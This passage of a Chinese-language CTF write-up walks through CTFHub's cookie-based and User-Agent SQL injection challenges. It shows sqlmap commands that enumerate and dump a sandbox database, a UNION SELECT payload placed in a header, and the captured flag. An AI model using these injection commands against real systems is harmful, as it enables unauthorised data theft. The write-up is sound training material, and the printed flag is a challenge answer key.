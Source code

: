 ```sql
sqlmap -u "http://challenge-40986a7ba9926439.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 --dbs
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/7.png)

爆破出当前数据库的名字：

```sql
sqlmap -u "http://challenge-40986a7ba9926439.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 --current-db
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/8.png)

得到数据库名`sqli`后继续爆破表信息：

```sql
sqlmap -u "http://challenge-40986a7ba9926439.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli --tables
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/9.png)

知道有个叫`gsilsvtvjn`的表后，可以查看该表的字段信息：

```sql
sqlmap -u "http://challenge-40986a7ba9926439.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli -T gsilsvtvjn --columns
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/10.png)

最后输入以下代码根据`ywcxnnlyfe`字段可以查询到该字段的数据：

```sql
sqlmap -u "http://challenge-40986a7ba9926439.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli -T gsilsvtvjn -C ywcxnnlyfe --dump 
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/11.png)

提交`ctfhub{9a3c5a851a615b8332cbe20b}`即可。

------

#### UA注入

**解法1：**`Burp Suite`

`union select`可以进行联合查询，`id=-1`表示一个不存在的`id`，`database()`回显当前连接的数据库，修改`User-Agent`为以下代码可以查询到当前数据库为`sqli`：

```sql
-1 union select 1, database()
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/1.png)
